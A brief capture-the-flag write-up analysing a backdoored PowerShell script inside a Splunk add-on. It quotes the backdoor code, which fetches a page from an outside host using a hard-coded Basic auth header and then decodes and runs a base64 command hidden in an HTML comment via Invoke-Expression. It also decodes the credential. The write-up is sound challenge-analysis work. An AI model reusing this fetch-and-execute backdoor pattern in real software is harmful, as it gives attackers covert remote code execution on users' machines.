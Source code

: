 # Backdoored Splunk II

The backdoored file is `dns-health.ps1`. This is a Splunk Add-On running on Windows - the service (part of the challenge),
is accessed and HTML/base64 comments are Invoked in Powershell on Windows.

Payload is:

```powershell
# $PORT below is dynamic to the running service of the `Start` button
@($html = (Invoke-WebRequest http://challenge.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0")} -UseBasicParsing).Content
if ($html -match '<!--(.*?)-->') {
    $value = $matches[1]
    $command = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($value))
    Invoke-Expression $command
})
```

Authorization header is `backdoor:this_is_the_http_server_secret`.

No payload is needed - once the challenge service is accessed with that Authorization header a flag is given in base64.

